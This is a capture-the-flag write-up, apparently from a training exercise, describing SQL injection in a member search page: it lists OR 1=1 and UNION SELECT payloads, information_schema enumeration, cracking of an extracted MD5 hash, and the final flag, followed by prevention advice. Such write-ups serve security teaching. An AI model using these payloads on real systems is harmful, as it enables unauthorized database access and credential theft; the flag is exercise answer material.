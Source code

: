 ## Breach 08 – SQL Injection in Member Search with Hash Forgery

**Vulnerability:**  
The member search feature embeds user input directly into SQL queries without sanitization, allowing SQL injection and unauthorized data extraction.

**OWASP Top 10 Mapping:**  
**A03:2021 – Injection**  
Directly including untrusted user input in SQL statements enables full backend data compromise.

**Exploitation:**  
- Accessed the member search page:
  ```
  http://localhost:8000/?page=member&id=1
  ```
- Performed basic injection to list all records:
  ```
  id=1 OR 1=1
  ```
- Found a hint in member ID 5: “hack me”.

- Identified the correct number of columns via trial:
  ```
  1 UNION SELECT NULL, NULL; --
  ```

- Listed all column names (without filtering by table name, as `WHERE table_name='users'` failed):
  ```
  1 UNION SELECT column_name, NULL FROM information_schema.columns; --
  ```

- Compared discovered column names with known patterns, focusing on:
  - `Commentaire`
  - `countersign`

- Extracted hashes from the `users` table:
  ```
  1 UNION SELECT Commentaire, countersign FROM users; --
  ```

- Found:
  - **Commentaire:** `Decrypt this password -> then lower all the char. Sha256 on it and it's good!`
  - **countersign (MD5 hash):** `5ff9d0165b4f92b14994e5c685cdce28`

- Decrypted the MD5 hash using hashes.com:
  ```
  5ff9d0165b4f92b14994e5c685cdce28 → FortyTwo
  ```

- Transformed the plaintext to lowercase → `fortytwo`

- Re-hashed it using SHA-256:
  ```bash
  echo -n fortytwo | sha256sum
  ```
  Result:
  ```
  10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
  ```

- Submitted the SHA-256 hash and received the flag.

**Prevention:**  
- Use parameterized queries or prepared statements to safely handle user input.
- Avoid exposing database structure via verbose errors or introspection.
- Validate and sanitize all input on the server side.
- Apply least privilege to DB accounts and avoid using admin-level DB users in the application.

**Flag:**  
`10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`
